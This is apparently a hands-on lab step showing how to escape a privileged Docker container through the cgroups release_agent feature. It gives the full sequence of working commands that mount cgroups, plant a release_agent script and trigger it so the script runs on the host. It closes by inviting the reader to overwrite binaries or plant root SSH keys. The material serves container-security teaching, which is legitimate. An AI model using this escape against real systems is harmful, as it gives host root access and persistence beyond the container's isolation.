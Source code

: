 ## Escaping via cgroups release_agent

When inside of a container running in privileged mode (as determined in
steps 1-2) we can escape using the release_agent feature of cgroups.

### Start a privileged container

First, start an interactive shell inside a privileged container.  The
remainder of the commands in this step will run inside the container.

```
docker run -it --privileged ubuntu:18.04 bash
```{{execute}}

### Mount cgroups inside the container

Next, we mount the cgroups filesystem within the container so that we can
manipulate it:

```
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
```{{execute}}

### Create a cgroup with crafted release_agent

Now we create a cgroup with a release agent that can execute on the host an
arbitrary command from the container's "/cmd" file:

```
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```{{execute}}

### Specify the command

We could place any command inside this file.  We'll use ps as an example:

```
cat > /cmd <<EOF
#!/bin/sh
ps aux > $host_path/output 2>&1
EOF
chmod a+x /cmd
```{{execute}}

The output is sent to the container's "/output" file, so that we can see it
from within the container.

### Run a process in the cgroup to trigger the release_agent

The release_agent runs when all processes have exited from the cgroup.
This feature is intended to provide a hook to clean up the cgroups
themselves after they are no longer used.

The following command puts the "sh" process's ID into the cgroup we've
configured.  The "sh" process exits immediately after, as it has no more
commands to run, which triggers the release_agent to run.

```
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```{{execute}}

Inspect the output:

```
cat /output
```{{execute}}

To see how different that output is from running "ps" inside the container,
run "ps" inside the container:

```
ps aux
```{{execute}}

### Try another command...

Now try modifying the command ("ps aux") inside of "/cmd" to run something
else.  Can you overwrite a binary, install an authorized_keys entry for
root, or add a .bashrc for root?
